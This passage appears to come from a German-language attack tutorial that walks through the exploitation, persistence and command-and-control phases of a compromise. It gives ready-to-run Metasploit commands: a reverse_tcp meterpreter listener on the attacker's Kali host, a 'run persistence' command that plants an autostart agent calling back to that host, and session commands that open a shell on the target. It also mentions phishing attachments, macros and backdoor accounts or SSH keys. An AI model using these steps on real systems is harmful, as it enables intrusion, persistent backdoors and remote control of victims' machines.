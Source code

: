 2. **Ausnutzung einer Webanwendungsschwachstelle (Beispiel):**
    - Wenn die Aufklärung eine Schwachstelle in einer Webanwendung aufgedeckt hat (z.B. eine SQL-Injection oder eine Remote Code Execution), wird der Exploit direkt über den Browser oder mit spezialisierten Tools wie `sqlmap` oder durch manuelle Manipulation von HTTP-Anfragen (z.B. mit `Burp Suite`) zugestellt.

**Phase 4: Ausnutzung (Exploitation) - Zugriff erlangen**

1. **Starten eines Listeners auf dem Kali-System:**
    
    Bash
    
    ```
    sudo msfconsole -q
    use exploit/multi/handler
    set payload linux/x86/meterpreter/reverse_tcp # oder windows/meterpreter/reverse_tcp
    set LHOST <Deine Kali-IP>
    set LPORT 4444
    exploit -j -z
    ```
    
    - **Erklärung:** Dieser Befehl startet den Metasploit Framework Handler, der auf eingehende Verbindungen von unserem Payload wartet.
2. **Auslösen des Exploits:**
    - Wenn der Benutzer die präparierte E-Mail öffnet und den Anhang ausführt (oder das Makro aktiviert), oder wenn die Webanwendungsschwachstelle erfolgreich ausgenutzt wird, sollte der Payload eine Verbindung zu unserem Listener aufbauen.
3. **Meterpreter-Sitzung:** Bei erfolgreicher Ausnutzung erhalten wir eine Meterpreter-Sitzung auf dem Zielsystem.

**Phase 5: Installation - Persistenz sichern**

1. **Persistenz mit Meterpreter:**
    
    Bash
    
    ```
    run persistence -X -i 10 -p 4444 -r <Deine Kali-IP>
    ```
    
    - `-X`: Erstellt einen Autostart-Eintrag
    - `-i`: Intervall in Sekunden für die Verbindung
    - `-p`: Port für die Verbindung
    - `-r`: Deine Kali IP-Adresse
    - **Erklärung:** Dieser Meterpreter-Befehl installiert einen persistenten Agenten auf dem Zielsystem, der sich regelmäßig mit unserem Kali-System verbindet, auch nach einem Neustart.
2. **Alternative Methoden:** Erstellen von neuen Benutzerkonten, Modifizieren von Startskripten, Installieren von Backdoors über andere Mechanismen (z.B. SSH-Schlüssel).

**Phase 6: Kommando und Kontrolle (Command and Control - C2) - Interaktion mit dem Ziel**

1. **Interaktion mit der Meterpreter-Sitzung:**
    
    Bash
    
    ```
    sessions -i <ID der Sitzung> # Auswahl der aktiven Sitzung
    sysinfo # Anzeigen von Systeminformationen
    pwd # Aktuelles Arbeitsverzeichnis
    ls # Dateien und Verzeichnisse auflisten
    shell # Interaktive Shell auf dem Zielsystem öffnen
    ```
    